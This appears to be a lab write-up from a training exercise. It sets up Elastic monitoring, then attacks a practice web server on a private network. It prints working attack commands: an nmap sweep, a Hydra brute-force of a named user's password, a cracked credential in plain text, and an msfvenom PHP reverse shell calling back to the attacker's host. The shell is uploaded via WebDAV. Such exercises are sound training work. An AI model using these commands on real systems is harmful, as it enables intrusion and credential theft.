 # Red-Team-VS-Blue-Team

# Red Team VS Blue Team

Monitoring Setup Instructions

As I attack the webserver I need to make sure that my Elastic Stack is logging all activity.

I start by launching the Elastic Stack and Kibana on my monitoring server:

![filebeat_setup.png]

#### Setup Filebeat:

##### Run the following commands:

```bash
filebeat modules enable apache
```
``bash
filebeat setup
```

#### Setup Metricbeat:

##### Run the following commands:


```bash
metricbeat modules enable apache
```
```bash
metricbeat setup
```

![metrcibeat_setup.png]


#### Setup Packetbeat:


##### Run the following command:

```bash
packetbeat setup
```

Restart all 3 services. Run the following commands:

```bash
systemctl restart filebeat
```
```bash
systemctl restart metricbeat
```
```bash
systemctl restart packetbeat
```


## Time To Attack!

Today, I will act as an offensive security Red Teamer to exploit a vulnerable Capstone VM.

##### I will need to use the following tools, in no particular order:

>Firefox
>Hydra
>Nmap
>John the Ripper
>Metasploit
>curl
>MSVenom


Now it's time to search for the webserver that I am looking to attack.

##### Below, the `nmap` command I used to discover the IP address of the Linux web server and have all IPs discovered saved into the file `nmap_scanned_ips`:

```bash
nmap -sn 192.168.0.0/24 | awk '/Nmap scan/{gsub(/[()]/,"",$NF); print $NF > "nmap_scanned_ips"}'
```

From the list of IPs that Nmap has discovered on my virtual private network:

![nmap_scanned_ips]

I then run a service scan on all IPs except the IP of my Kali VM machine (192.168.1.90):


![nmap_webserver_nmap_lookup]


I found the Linux Apache webserver I was looking for with IP address `192.168.1.105` on port `80`.

Next, I open a web browser to access the webserver:

![webserver_webdirectory]


Next, I am tasked with finding a secret folder and break into it.


After reading the company's blog I found a lead on the location of the secret folder:

![secret_folder_clue]

Next, in the "meet our team" section I found an interesting clue about who is in charge of the folder. His name is Ashton:

![secret_folder_admin_ashton]

Next, I used `Hydra` to brute force the access to the secret folder located at /company_folders/secret_folder.

I used the following command to brute force the access to the web page using `ashton` as the username and the `rockyou.txt` wordlist to brute force his password:

```bash
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder
```

![hydra_brute_forced_password]

Next, I use Ashton's credentials to acces the secret_folder. I found a note that he left to himself, detailing how to connect to the company's webdav server:

![ashton_instruction_webdav]


I noticed a hash for ryan's account is displayed on the page. I decided to use the Crack Station website to crack it... And it worked!

![crack_station_cracked_hash]


The cracked password is: `linux4u`


Next, from the details left by Ashton on how to connect to the Webdav server, I figured out the path using the updated IP address of their server and successfully accessed the login windows and authenticated with the cracked credentials   `Ryan:linux4u`:

 ![]
![]
![]


Following the successful connection to the Webdav server, I am tasked with dropping a PHP reverse Shell payload.

I used `msfvenom` to create my payload file named `exploit.php` with the following command:

```bash
/usr/bin/msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 R > exploit.php
```

![php_payload_creation]


Next, I uploaded the reverse shell payload (exploit.php file) into the Webdav server:

![copy_paste_exploitPHP_in_webdav]



